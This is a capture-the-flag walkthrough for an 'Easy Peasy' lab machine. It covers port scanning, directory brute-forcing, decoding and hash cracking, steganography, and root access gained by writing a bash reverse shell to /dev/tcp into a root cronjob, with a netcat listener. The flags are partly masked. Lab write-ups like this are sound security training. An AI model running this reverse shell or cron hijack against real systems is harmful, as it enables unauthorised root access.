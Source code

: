# Easy Peasy

- How many ports are open?

	- `nmap <TARGET_IP>`
	- `3`

- What is the version of nginx?

	- `nmap -sV <TARGET_IP>`
	- `1.16.1`

- What is running on the highest port?

	- `apache`

- Using GoBuster, find flag 1.

	- `gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
	- We find `/hidden`.
	- Go in depth. `gobuster dir -u http://<TARGET_IP>/hidden/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
	- We find `/whatever`
	- Inspect page source.
	- `ZmxhZ3tmMXJzN19mbDRnfQ==`
	- `echo -n ZmxhZ3tmMXJzN19mbDRnfQ== | base64 -d`
	- `flag{f1rs7_fl4g}`

- Further enumerate the machine, what is flag 2?

	- I remember you there is another server public exposed. Go to `http://<TARGET_IP>:65524`.
	- With the same previous command of gobuster we can see there is a robots.txt file.
	- `a18672860d0510e5ab6699730763b250`
	- `hash-identifier`
	- Just search on google
	- `flag{1m_s3c0nd_fl4g}`

- Crack the hash with easypeasy.txt, What is the flag 3?

	- Inspect source code of default Apache page.
	- `flag{9fdafbd64c47471a8f54cd3fc64cd312}`

- What is the hidden directory?

	- Looking at the second server (apache) index page source code I found `its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu`.
	- Play a bit with CyberChef.
	- `/n0th1ng3ls3m4tt3r` (base62).
	
- Using the wordlist that provided to you in this task crack the hash
what is the password?

	- Go to this directory with a browser and inspect source code.
	- `940d71e8655*********8ab85066**********418**********83e7f5fe6*d81`
	- `hash-identifier`
	- `john --wordlist=easypeasy.txt --format=gost hash.txt`
	- `mypass*************`

- What is the password to login to the machine via SSH?

	- Download the central image on the page (`http://<TARGET_IP>:65524/n0th1ng3ls3m4tt3r`)
	- `steghide extract -sf binarycodepixabay.jpg` and enter the password.
	- In the new file you will have a username and a binary password.
	- Just convert to text the binary code.
	- `***********************binary`

- What is the user flag?

	- Login into ssh (not port 22, remember the output of nmap).
	- `cat user.txt`
	- This isn't the real flag. Just use ROT13.
	- `flag{n0wi************}`

- What is the root flag?

	- Try to search something related to cronjob.
	- `cat /etc/crontab`
	- uuuuuuuuh `/var/www/.mysecretcronjob.sh`
	- This code will be executed as root, so:
	- Insert this on that file: `/bin/bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1`
	- On your machine `nc -lnvp 4444`
	- `cat /root/flag.txt` ......
	- wat?
	- oH. Ok. `cat /root/.root.txt`
	- `flag{63a**0e******05079**********1845}`





